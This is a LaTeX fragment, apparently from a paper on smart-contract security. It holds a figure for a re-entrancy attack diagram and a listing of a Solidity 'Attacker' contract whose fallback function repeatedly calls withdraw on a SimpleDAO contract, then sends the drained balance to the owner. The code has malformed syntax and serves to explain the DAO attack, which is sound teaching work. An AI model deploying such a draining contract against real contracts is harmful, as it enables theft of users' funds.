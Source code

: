 \begin{figure}[t]
	\centering
	\includegraphics[width=1.0\linewidth]{figures/DAO_flowchart.png}
	\caption{The re-entrancy attack diagram.}
	\label{fig:DAO_flowchart}
\end{figure}


\begin{lstlisting}[basicstyle=\scriptsize\ttfamily,caption={The attacker's malicious smart contract that drains funds from the DAO smart contract.},label={code:attackdao},float]
Import ?browser/SimpleDAO.sol ?;
Contract Attacker 
{
	//assign SimpleDAO contract as dao
	SimpleDAO public dao = SimpleDAO (0x2ae...);
	address owner;
	
	//assign the contract creator as owner
	constructor (Attacker) public {
		owner = msg.sender;
	}
	
	//a fallback() function that receives no data and withdraws funds from SImpleDAO
	function() public payable {
		dao.withdraw (dao.assignedCredit (this)) ;
	}
	
	//attacker sends all the funds to his personal address
	function drainfunds() payable public{
		owner.transfer (address(this).balance);
	}
}
	
\end{lstlisting}


